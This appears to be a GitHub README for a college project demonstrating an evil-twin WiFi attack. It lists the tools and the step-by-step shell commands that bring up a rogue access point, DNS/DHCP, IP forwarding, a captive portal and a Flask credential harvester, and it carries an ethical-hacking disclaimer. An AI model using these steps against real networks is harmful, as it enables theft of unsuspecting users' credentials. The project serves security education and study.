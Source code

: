 # Social-Engineering: WiFi Spoofing (Evil Twin) Attack
This repository contains a college project demonstrating a WiFi Spoofing (Evil Twin) Attack. The goal was to simulate how a malicious access point in a public setting (like an airport or café) can redirect users to a captive portal to intercept credentials.

⚠️ **Ethical Hacking Disclaimer**
This project is for educational and research purposes ONLY. It was conducted in a controlled lab environment on test devices. These techniques should not be used for any malicious or illegal activities. Understanding these attacks is key to building stronger network defenses.

**Project Overview**:
This demonstration uses a USB WiFi adapter to create a malicious wireless access point. When a user connects to the fake WiFi network, they are assigned an IP address by a custom DHCP/DNS server and then redirected to a fake login page hosted on a Python Flask server. After the user submits their "credentials," they are granted internet access, unaware their information has been captured.

## Technologies Used

Hardware: ALFA AWUS036ACS --> USB WiFi adapter capable of access point mode

Hotspot: hostapd --> Used to create the malicious wireless hotspot

DNS & DHCP: dnsmasq --> Assigns IP addresses to connecting devices and handles DNS requests

Captive Portal: Nodogsplash --> Used to redirects all new connections to fake login page

Phishing Server: Flask (Python) --> Python web framework used to host the fake login page and credential harvester

Network Management: iptables, sysctl, iw --> Linux kernel utilities to manage packet forwarding and network address translation

Environment: Kali Linux

## Commands Used:
sudo ip link set wlan0 down ----------> Set USB adapter interface down

sudo iw dev wlan0 set type __ap ----------> Set adapter to be in access point mode for our hotspot

sudo ip link set wlan0 up ----------> Set USB adapter interface up

sudo ip addr flush dev wlan0 ----------> Clear out any IP address associated to our adapter interface

sudo ip addr add 10.10.0.1/24 dev wlan0 ----------> Add 10.10.0.1 IP address to our USB adapter interface

sudo hostapd hostapd.conf ----------> Start up our WiFi hotspot

sudo dnsmasq -C dnsmasq.conf ----------> Launch our DNS and DHCP server

sudo sysctl -w net.ipv4.ip_forward=1 ----------> Enable IP forwarding for router to forward packets

sudo iptables -P FORWARD ACCEPT ----------> Update Linux kernel firewall to accept forwarding traffic

sudo python3 PhishingServer2.py ----------> Launch our Flask web server with credential harvester

sudo nodogsplash ----------> Launch our captive portal webpage
